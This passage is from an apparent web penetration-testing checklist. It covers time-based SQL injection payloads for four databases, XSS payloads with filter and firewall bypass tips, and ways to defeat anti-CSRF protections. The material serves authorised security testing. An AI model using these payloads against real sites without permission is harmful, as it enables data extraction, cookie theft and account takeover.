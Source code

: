       ```markup
            Oracle 	      dbms_pipe.receive_message(('a'),10)
            
            Microsoft 	  WAITFOR DELAY '0:0:10'
            
            PostgreSQL 	  SELECT pg_sleep(10)
            
            MySQL 	      SELECT sleep(10)
      ```
  *   Conditional Delays

      ```markup
            Oracle 	      SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
            
            Microsoft 	  IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
            
            PostgreSQL 	  SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
            
            MySQL 	      SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')
      ```
* **Cross-Site Scripting Testing(XSS)**
  * \[ ] if `HttpOnly` is **true** don’t test for this bug
  * \[ ] Try XSS using QuickXSS tool by theinfosecguy
  * \[ ] Upload file using '">\<img src=x onerror=alert(document.domain)>.txt
  * \[ ] If script tags are banned, use \<h1> and other HTML tags
  * \[ ] If output is reflected back inside the JavaScript as a value of any variable just use alert(1)
  * \[ ] if " are filtered then use this payload />\<img src=d onerror=confirm(/tushar/);>
  * \[ ] Upload a JavaScript using Image file
  * \[ ] Unusual way to execute your JS payload is to change method from POST to GET. It bypasses filters sometimes
  * Tag attribute value
    * \[ ] Input landed -\<input type=”text” name=”state” value=”INPUT\_FROM\_ USER”>
    * \[ ] Payload to be inserted -“ onfocus=”alert(document.cookie)"
  * \[ ] Syntax Encoding payload “%3cscript%3ealert(document.cookie)%3c/script%3e"
  * XSS filter evasion
    * \[ ] < and > can be replace with html entities < and >
    * \[ ] You can try an XSS [polyglot.Eg](http://polyglot.eg):-javascript:/_->\</title>\</style>\</textarea>\</script>\</xmp>\<svg/onload='+/"/+/onmouseover=1/+/\[_/\[]/+alert(1)//'>
  * XSS Firewall Bypass
    * \[ ] Check if the firewall is blocking only lowercase
    * \[ ] Try to break firewall regex with the new line(\r\n)
    * \[ ] Try Double Encoding
    * \[ ] Testing for recursive filters
    * \[ ] Injecting anchor tag without whitespaces
    * \[ ] Try to bypass whitespaces using Bullet
    * \[ ] Try to change request method
* **CSRF Testing**
  * \[ ] if cookie settings have `SameSite` don’t test for this bug
  * Application has Anti-CSRF token implemented
    * \[ ] Removing the Anti-CSRF Token
    * \[ ] Altering the Anti-CSRF Token
    * \[ ] Using the Attacker’s Anti-CSRF Token
    * \[ ] Spoofing the Anti-CSRF Token
    * \[ ] Using guessable Anti-CSRF Tokens
    * \[ ] Stealing Anti-CSRF Tokens
  * Application uses Double Submit Cookie
    * \[ ] Check for session fixation on subdomains
    * \[ ] Man in the the middle attack
  * Application validates the Referrer or the Origin of the request received
    * \[ ] Restricting the CSRF POC from sending the Referrer header
    * \[ ] Bypass the whitelisting/blacklisting mechanism used by the application
  * Sending data in JSON/XML format
    * \[ ] By using normal HTML Form1